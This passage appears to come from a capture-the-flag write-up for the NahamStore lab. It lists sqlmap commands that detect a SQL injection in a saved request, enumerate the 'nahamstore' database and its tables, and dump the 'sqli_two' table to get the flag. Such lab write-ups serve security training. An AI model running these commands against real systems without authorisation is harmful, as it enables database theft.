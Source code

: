 `sqlmap -r request.txt --batch` with this command the sqlmap will find the vulnerability

Then we need to do `sqlmap -r request.txt --dbs` to get the database name, once we found it we can retrive the tables using `sqlmap -r request.txt -D nahamstore --tables`

![Untitled](images/Untitled%2065.png)

Getting the content of `sqli_two`, use `sqlmap -r request -D nahamstore -T sqli_two --dump`

And you will get the flag

![Untitled](images/Untitled%2066.png)
